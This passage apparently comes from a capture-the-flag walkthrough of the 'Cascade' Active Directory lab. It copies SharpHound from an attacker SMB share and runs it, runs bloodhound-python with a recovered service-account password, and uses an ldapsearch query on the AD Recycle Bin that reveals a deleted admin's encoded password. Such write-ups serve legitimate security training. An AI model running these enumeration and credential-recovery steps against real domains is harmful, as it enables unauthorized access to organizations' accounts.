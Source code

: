 Let's look at Bloodhound to see what we can do with the AD situation.

```powershell
copy \\10.10.14.8\share\SharpHound.ps1
. .\sharphound.ps1
Invoke-Bloodhound -CollectionMethods All -CollectAllProperties
# errors?
```

Not sure what's going on. Getting errors trying to run SharpHound, no matter whether I use the EXE or PS1 versions. Going to try `bloodhound-python`

```sh
# install bloodhound-python in virtual environment
❯ python3 -m venv venv
❯ source venv/bin/activate
❯ pip install bloodhound

# run it
❯ bloodhound-python -c All -d 'cascade.local' -u 'ArkSvc' -p 'w3lc0meFr31nd' -ns 10.10.10.182
```

Finally that worked.

Looking at the results, I notice that `arksvc` is a member of AD Recycle Bin, which should have the TempAdmin user in a recycle bin somewhere. If I can figure out how to recover that user's info, I should be able to use his password to log in as domain admin. (I should have realized this earlier... it was in the `whoami` output)

![](assets/bloodhound-recyclebin.png)

I started googling Active Directory Recycle Bin, and apparently that's a [real thing](https://blog.netwrix.com/2021/11/30/active-directory-object-recovery-recycle-bin/). I found a [StackOverflow](https://serverfault.com/questions/901378/access-ad-recycle-bin-through-ldap) article that showed how to search for Deleted Objects using LDAP, and I combined that with [HackTricks' `ldapsearch` usage](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap#ldapsearch) to make a query that shows deleted objects:

```sh
# ldapsearch for Deleted Objects in AD Recycle Bin
# '-x' : use simple authentication
# '-H URI' : LDAP Host URI
# '-D DISTINGUISHED_NAME' : the user's DN to bind to (format: DOMAIN\USERNAME)
# '-w PASSWORD' : password for user
# '-b BASE_DN' : base distinguished name to use for search results
# '-E EXTENSION' : LDAP search extensions
❯ ldapsearch -x -H ldap://cascade -D 'CASCADE\ArkSvc' -w 'w3lc0meFr31nd' -b "CN=Deleted Objects,DC=cascade,DC=local" -E showDeleted
# ---- snip ----
msDS-LastKnownRDN: TempAdmin
cascadeLegacyPwd: YmFDVDNyMWFOMDBkbGVz
# ---- snip ----
```
